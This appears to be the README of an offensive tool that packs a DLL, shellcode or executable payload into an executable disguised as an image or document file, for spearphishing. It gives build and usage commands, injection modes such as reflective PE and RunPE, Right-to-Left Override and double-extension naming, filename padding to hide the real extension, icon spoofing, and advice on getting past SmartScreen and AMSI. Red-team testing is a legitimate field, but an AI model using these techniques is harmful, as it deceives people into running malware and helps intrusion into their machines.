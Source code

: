 # Executable Masquerading
Generate an executable that acts like a normal file (JPG, PDF, DOCX etc) with the file data embedded directly inside PE. Made for spearphishing and personally I think this is effective (kinda). Built with Nim cause why not, I terribly hate C++ anyway.

> Disclaimer: <br>
> This tool is not intended for any illegal phishing attack, I made it specifically for my own usage in red-team demonstration and for other fellow red-teamer.
> Of course, in that way, all actions anyone done with this tool have nothing to do with me. And I highly discourage the very usage of this tool (cause, well, even if u're a legal pentester ur client will most likely despise spearphishing attacks).

![](https://github.com/idfp/masquerade/blob/main/assets/demo.gif)
## TODO:
- Linux environment supports (not linux based payloads.)
- Self Cleaning function (delete executable after execution and replace it with normal files.)
- Document known limitations.
- Write better use cases.
## Usage
```bash
masquerade.exe [OPTIONS] <targetfile>
Options:

    Basic:
    --payload=<path> Payload to embed in the end result, must be either DLL or a shellcode file.
    -p shorthand for --payload

    --output=<path> output file name, do not include the scr extension.
    -o shorthand for --output

    --type define how the scr file should execute the payload, can be Either:
        basic, ReflectivePE, or RunPE (default basic)
    -t shorthand for --type

    Advanced (might be useful for AMSI bypass):
    --naming=<rtl | normal> define how the file should be named, either using Right to left or normal (double extension, actually).
        rtl or normal (default normal)
    -n shorthand for --naming

    --disable-rename do not rename the file and keep it in template/ directory.
    -d shorthand for --disable-rename

    --use-exe rename the output file with .exe extension instead of .scr
    -e shorthand for --use-exe

    --add-random=<length> add random string by certain length to filename (with purpose of preventing users from realizing the double ext)
    -r shorthand for --add-random

```
Example: <br>

Generate an executable that loads pict.jpg when being run, and execute payload `test.exe` through reflective PE injection.
```sh
masquerade.exe --payload=test.exe --type=ReflectivePE pict.jpg
```
Generate the same thing, but write output file into `totally-not-suspicious.jpg.scr`
```sh
masquerade.exe --payload=test.exe --type=ReflectivePE --output=totally-not-suspicious.jpg pict.jpg
```

## Installation / Building
Make sure you have nim compiler loaded into your windows PATH plus its dependencies (mingw for compiling c / c++).
Then install all dependencies with nimble:
```bash
nimble install winim
```
Build `masquerade.nim` with this command:
```bash
nim c -d:release --threads:on masquerade.nim
```
the resulted `masquerade.exe` can be used as I exampled above.
### Payload Compiling
Any exe payload is fine actually (with some pitfalls, I'll explain it in later part). But if you want to compile the payload with Nim, make sure you build it this way:
```cmd
nim c -d:release -d:danger -d:strip --opt:size --threads:on --app:gui payload.nim
```
This will create a very compressed exe payload (around 60KB for basic Msgbox payload, without this it will sized 330KB).

## Pitfalls and Strategies
First thing I want to note, for both myself and the users is that this attack can be easily detected either by victim themselves or by the AMSI. In some cases the whole payload won't even get executed due to smartscreen blockage, forcing you to sign the executable (which is kinda hard, though possible, by signature cloning).

The Right-to-Left Override will most likely trigger smartscreen, so only use this to fool victim that have disabled their smartscreen. This is very disappointing since RTLO is so powerful to deceive even the eyes of experts. 

That doesn't mean RTLO is obsolete tho, with certain payload or algoritm, it's perfectly usable. In my first phase of development RTLO run perfectly, it only started to fail after certain implementation of file embedding.

On the other hand, double extension works finely for most cases. Just use `.exe` + `.jpg ` if u're not sure which one to choose, since `.scr` + `.jpg` failed in some scenario.

This tool perfectly suited for organization spearphishing that targets multiple person with different digital ecosystem. Since some of them might haven't turn on "show file extension" option while the other side might have disabled smartscreen and Av completely. 

### Changing Output Icon
use `rcedit.exe` in `bin` folder to edit ur executable icon. here's the syntax
```bash
rcedit.exe "(your exe file)" --set-icon (your ico file)
```
